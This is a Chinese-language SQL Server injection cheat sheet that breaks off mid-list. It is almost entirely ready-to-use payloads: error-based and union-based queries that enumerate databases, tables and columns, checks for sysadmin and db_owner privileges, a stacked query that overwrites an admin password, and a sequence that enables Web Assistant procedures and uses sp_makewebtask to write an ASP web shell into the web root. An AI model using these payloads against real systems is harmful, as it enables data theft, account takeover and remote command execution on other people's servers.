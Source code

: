 ### （5）列出数据
* `id=1 and 1=(select pass from admin)`


  
## SqlServer union 联合查询
### （1）表的列数
* `id =1 order by 4` 不断从1，2，3，4，5.....直到页面报错 ，得到表的列数
### （2）版本信息或取
* `id=1 union select null,@@version,db_name(),null,null `   查询版本和数据库名  *sqlserver在select后不能加数字，要加null，因为不知道该列是否为字符列，会报错*
### （3）列数数据库名
* 通过改变dbid数值列出所有数据库
  `id=1 union select null,(select name from master.dbo.sysdatabases where dbid=1),null `
### （4）列出表名
* 查询其他数据库的表名
  `id=1 union select null,(select top 1 name from [dbname]..sysobjects where xtype='u' and name not in(select top 0 name from [dbname]..sysobjects where xtype='u')),null,null`
* 列出第一个表名
  `id=1 union select null,(select top 1 name from (select top 1 name from sysobjects where xtype=0x75 order by name) t order by name desc),null `
* 列出第二个表名
  `id=1 union select null,(select top 2 name from (select top 1 name from sysobjects where xtype=0x75 order by name) t order by name desc),null`
### （5）列出列名(假设表名为admin)
* 改变object_id后的数字，来累出表中所有列名
  `id=1 union select null,(select col_name(object_id('admin'),1)),null`



## 权限利用
### （1）权限判断
* 判断是否是系统管理员
  `id=1 and 1=(select is_srvrolemember('sysadmin'))`
* 判断是否是库权限
  `id=1 and 1=(select is_srvrolemember('db_owner'))`
* 判断是否是public权限
  `id=1 and 1=(select is_srvrolemember('public'))`
* 判断是否有库读取权限
  `id=1 and 1=(select HAS_DBACCESS('master'))`
  *is_srvrolemember函数返回1代表是，0代表否*
### （2）Sa权限利用
* 修改网站管理员密码
  当获得管理员密码，但是md5解不出来时，可以使用sql语句更改管理员密码：
  `id=1;update admin set pass='adfasdfadfas' where admin='cracer'`
* 直接getshell 使用sp_makewebtask
  **1）修复上传** :
  ```sql
id=1;EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
exec sp_configure 'Web Assistant Procedures',1;
  ```
  **2）[[WebShell#GetShell|getshell]]**：
  ```sql
;exec sp_makewebtask
'C:\Inetpub\wwwroot\8005\x1.asp','select''<%execute(request("cmd"))%>'''--'
  ```
  **3）执行**

